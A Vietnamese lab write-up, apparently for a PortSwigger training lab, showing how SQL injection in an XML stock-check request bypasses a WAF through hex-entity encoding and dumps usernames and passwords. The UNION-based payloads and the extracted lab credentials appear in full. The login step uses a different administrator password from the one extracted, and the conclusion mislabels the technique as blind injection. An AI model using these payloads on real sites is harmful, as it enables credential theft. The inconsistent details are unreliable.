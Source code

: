 # Write-up: SQL injection with filter bypass via XML encoding

### Tổng quan
Ghi lại quá trình khai thác lỗi SQLi bằng cách vượt qua bộ lọc (WAF) thông qua XML encoding, nhằm lấy được mật khẩu và đăng nhập với quyền `administrator`.

### Mục tiêu
- Khai thác mật khẩu và đăng nhập dưới quyền `administrator`

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tính năng `check stock` của một sản phẩm bất kì, nhận thấy kho sẽ gửi `productId` và `storeId` đến web bằng định dạng XML và sử dụng nó để thực hiện lấy thông tin từ DB.
    ![db](./images/xml.png)

- Kiểm tra xem có cần mã hóa truy vấn không
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 UNION SELECT NULL
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: xác nhận cần mã hóa
        ![encode](./images/detect.png)

- Xác định số cột trả về 
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT NULL, NULL
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Chỉ có 1 cột được trả về.
        ![cột](./images/one.png)


2. **Tạo Payload**
- Tạo payload để trích xuất thông tin người dùng
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT username ||'~'|| password FROM users
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Truy vấn thành công thông tin
        `administrator`~`4j4v7teu59b7w37bgj1k`
        `carlos`~`lo6w71a8ut7z6557yy5z`
        `wiener`~`ybbmoi6oocvigcegaknt`
        ![data](./images/credetials.png)

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `administrator` : `cjmpp53lzxnc5oaxkplg` và hoàn thành lab
    ![vào](./images/login_success.png)

### Bài học rút ra
- Củng cố kỹ năng khai thác SQL injection với kỹ thuật XML encoding bypass.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.